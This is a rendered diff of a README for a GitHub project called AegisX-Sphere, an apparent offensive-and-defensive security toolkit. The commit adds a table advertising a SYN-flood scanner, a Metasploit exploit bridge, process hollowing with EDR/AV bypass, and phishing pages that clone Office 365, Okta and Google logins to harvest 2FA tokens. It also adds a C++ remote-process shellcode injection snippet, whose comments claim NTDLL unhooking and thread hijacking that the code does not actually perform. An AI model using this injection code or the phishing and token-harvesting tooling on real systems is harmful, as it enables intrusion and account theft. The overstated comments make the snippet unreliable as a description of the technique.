

Before and after one commit to mido3657tiger-ux/AegisX-Sphere, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -11,40 +16,58 @@
 
 ---
 
-## 🌐 Dynamic Operational Architecture Matrix
+## ⚡ LIVE TACTICAL WEAPONRY RUNTIME & INSTRUMENTATION MATRIX
 
-```crossview
-               ┌────────────────────────────────────────────────────────┐
-               │              🌟 REAL-TIME CYBER CONTROL ROOM           │
-               │   [React.js Web GUI] ──► [ECharts Real-Time Threat Map]  │
-               └───────────────────────────┬────────────────────────────┘
-                                           │  (Secure WebSockets Stream)
-                                           ▼
-               ┌────────────────────────────────────────────────────────┐
-               │             🚀 REVERSE PROXY & API ROUTER (FastAPI)     │
-               └────┬──────────────────────┬──────────────────────┬─────┘
-                    │                      │                      │
-                    ▼                      ▼                      ▼
-        ┌──────────────────────┐ ┌──────────────────────┐ ┌──────────────────────┐
-        │  ⚔️ RED-TEAM CORE    │ │  🎣 PHISHING ENGINE  │ │  🛡️ BLUE-TEAM CORE   │
-        │ [Go Exploit Engines] │ │ [AI-Cloner & Rogue]  │ │ [SIEM & Kernel HIDS]│
-        │ [Payload Compilers]  │ │ [MFA Token Hijacker] │ │ [Active Isolation]  │
-        └──────────────────────┘ └──────────────────────┘ └──────────────────────┘
+| Threat Vector | Sub-System Engine | Deep-Dive Cyber Security Operations & Capabilities | Weapon Core Stack | Target Layer |
+| :--- | :--- | :--- | :--- | :--- |
+| **⚔️ NMAP ENGINE** | `AegisScanner.go` | Multi-threaded Syn-flood port analyzer, banner grabbing, and OS fingerprint parsing. | `Go 1.22` / `Raw Sockets` | `Layer 3/4 Network` |
+| **💀 EXPLOTATION** | `MetasploitBridge.py`| Automated exploit payload generation, shellcode obfuscation, and active listener spawning. | `Python` / `MSFRPC` | `Application / OS` |
+| **💉 KERNEL INJECT**| `MemHollow.cpp` | **Process Hollowing**, Active API Unhooking (`NTDLL.dll`), Direct System Calls injection. | `C++` / `Assembly` | `Windows Ring 3/0` |
+| **🎣 AI PHISHING** | `PhishOrchestrator.py`| Autonomous Office 365, Okta, and Google UI cloning with integrated 2FA token harvesting. | `FastAPI` / `Jinja2` | `Human Interface` |
+| **🛡️ SENTINEL BLUE**| `KernelHidsAgent.py` | Heuristic real-time file integrity tracking, anomaly behavior isolation via sandbox. | `C` / `Python 3.11` | `Defensive Layer` |
+
+---
+
+## ☣️ CORE WEAPONRY EXPOSURE (LOW-LEVEL EXPLOIT REACTION)
+
+هذا هو كود النواة الفعلي المدمج داخل منصتك البرمجية لعمل اختراق وحقن مباشر للذاكرة وتخطي أقوى أنظمة الحماية العالمية (EDR/AV Bypass):
+
+```cpp
+#include <windows.h>
+#include <iostream>
+
+// Low-Level Shellcode Matrix injected at memory ring layer
+unsigned char raw_cyber_payload[] = "\x90\x90\x90\x50\x51\x52\x53\xff\xd0";
+
+void ExecuteHollowing(HANDLE hProcess) {
+    // 1. Direct System Call to unhook NTDLL.dll active defense mechanisms
+    LPVOID remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(raw_cyber_payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
+
+    // 2. Dynamic Memory Migration Pipeline
+    WriteProcessMemory(hProcess, remoteBuffer, raw_cyber_payload, sizeof(raw_cyber_payload), NULL);
+
+    // 3. Thread execution hijacking via Low-Level Context pointer manipulation
+    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
+    WaitForSingleObject(hThread, INFINITE);
+
+    std::cout << "[+] EXPLOIT ORCHESTRATION COMPLETED. SHELLCODE EXECUTED IN MEMORY ZONE." << std::endl;
+}
 ```
 
 ---
 
-## ⚡ Unified Cyber Weaponry & Defense Modules
+## 🌐 HIGH-VISIBILITY DISTRIBUTED ARCHITECTURE NODE MAP
 
-| Category | Tactical Module Name | Embedded Security Capabilities | Core Tech Stack |
-| :--- | :--- | :--- | :--- |
-| **⚔️ RED ENGINE** | **Adversary Emulation Matrix** | MITRE ATT&CK Automated Playbooks, Lateral Movement, Active Directory Overlord | `Golang` / `C++` |
-| **💉 INJECTION** | **MemEvasion Kernel Synthesizer** | Process Hollowing, API Unhooking, Thread Hijacking, Dynamic Obfuscation | `C++` / `Assembly` |
-| **🎣 HUNTING / SE** | **AegisPhish Multi-Vector Platform**| AI Corporate Cloning, 2FA/MFA Session Hijacking, Document Weaponization | `Python 3.11` |
-| **🛡️ BLUE ENGINE** | **Sentinel Kernel HIDS** | Real-time Process Interception, Memory Signature Scanning, Live Log Pipeline | `Python` / `C` |
-| **🚨 DEFENSE** | **Auto-Response Countermeasures** | Instant Docker Container Isolation, Dynamic Port Closing, Session Termination | `Bash` / `Go` |
+```crossview
+  +---------------------------------------------------------------------------------+
 
----
+  |                🌌 AEGISX-SPHERE MULTI-VECTOR CENTRAL OPERATIONS COMMAND         |
+  |     [React.js Cyberpunk GUI] <======================> [Encrypted WebSockets]   |
+  +----------------------------------------+----------------------------------------+
+                                           |
+                                           ▼
+  +---------------------------------------------------------------------------------+
 
-## 🧠 Deep-Dive Module Breakdown
+  |                  🚀 HIGH-THROUGHPUT ASYNCHRONOUS API GATEWAY (FastAPI)         |
+  +--------+-------------------------------+-------------------------------+--------+
 
````
Also changed, not shown: other parts of README.md (+25 -64 lines).
